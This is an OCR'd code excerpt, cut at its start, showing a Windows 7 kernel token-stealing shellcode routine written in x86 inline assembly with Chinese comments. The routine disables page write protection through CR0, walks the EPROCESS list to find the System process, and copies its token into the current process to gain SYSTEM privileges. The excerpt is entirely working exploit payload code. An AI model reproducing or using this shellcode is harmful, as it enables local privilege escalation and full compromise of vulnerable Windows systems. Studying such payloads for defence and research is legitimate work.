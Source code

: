 ```
{
    printf("%s Error 0x%X\n", msg, ErrorCode);
}
 
VOID __declspec(naked) Ring0ShellCode()
{
    __asm
    {
        pushfd
        pushad
        sub esp, 0x40
    }
 
    // 关闭页保护
    __asm
    {
        cli
        mov eax, cr0
        and eax, ~0x10000
        mov cr0, eax
    }
 
    __asm
    {
        // 取当前线程
        mov eax, fs:[0x124]
        // 取线程对应的EPROCESS
        mov esi, [eax + 0x150]
        mov eax, esi
    searchWin7:
        mov eax, [eax + 0xB8]
        sub eax, 0x0B8
        mov edx, [eax + 0xB4]
        cmp edx, 0x4
        jne searchWin7
        mov eax, [eax + 0xF8]
        mov [esi + 0xF8], eax
    }
 
    // 开起页保护
    __asm
    {
        mov eax, cr0
        or eax, 0x10000
        mov cr0, eax
        sti
    }
 
    g_bIsExecute = TRUE;
 
    __asm
    {
        add esp, 0x40
        popad
        popfd
 
        xor eax, eax
        pop ebp
        ret 8
    }
} 
```

